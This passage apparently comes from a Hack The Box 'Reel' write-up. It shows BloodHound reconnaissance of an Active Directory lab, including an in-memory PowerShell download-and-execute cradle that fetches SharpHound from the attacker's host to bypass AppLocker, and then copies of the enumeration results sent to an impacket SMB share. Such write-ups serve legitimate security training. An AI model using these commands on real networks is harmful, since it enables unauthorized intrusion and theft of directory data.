 
## Identifying attack paths with BloodHound

We can bypass the AppLocker policies by executing the SharpHound.ps1 script straight from memory by letting PowerShell download and execute a copy we are hosting locally (SharpHound is the core of BloodHound rewritten in C# and the .ps1 script has the ability of gathering all the information it finds on the host to create a database that BloodHound can read and show us what it found graphically):

```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37/SharpHound.ps1')
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> Invoke-Bloodhound -CollectionMethod All
Initializing BloodHound at 4:37 PM on 9/2/2019
Resolved Collection Methods to Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets
Starting Enumeration for HTB.LOCAL                    
Status: 84 objects enumerated (+84 Infinity/s --- Using 105 MB RAM )         
Finished enumeration for HTB.LOCAL in 00:00:00.5145272                    
0 hosts failed ping. 0 hosts timedout.                               

Compressing data to C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors\20190902163714_BloodHound.zip.         
You can upload this file directly to the UI.       
Finished compressing files!
```

A .zip file was created with all the results of the enumeration process performed by SharpHound, we can import this archive in our local instance of BloodHound but first we must move it locally so I enabled an SMB share on my Parrot box:

```a
┌─[baud@parrot]─[~/reel]
└──╼ $sudo /usr/share/doc/python-impacket/examples/smbserver.py baud .
[sudo] password di baud:

Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then I used *net use* to enable the shared folder on Reel:

```a
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> net use \\10.10.14.37\baud
The command completed successfully.
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> net use  
New connections will be remembered.

Status       Local     Remote                    Network                                                              
-------------------------------------------------------------------------------
Disconnected           \\10.10.14.37\baud        Microsoft Windows Network
The command completed successfully. 

PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> copy 20190902163714_BloodHound.zip \\10.10.14.37\baud\bloodhound.zip
```
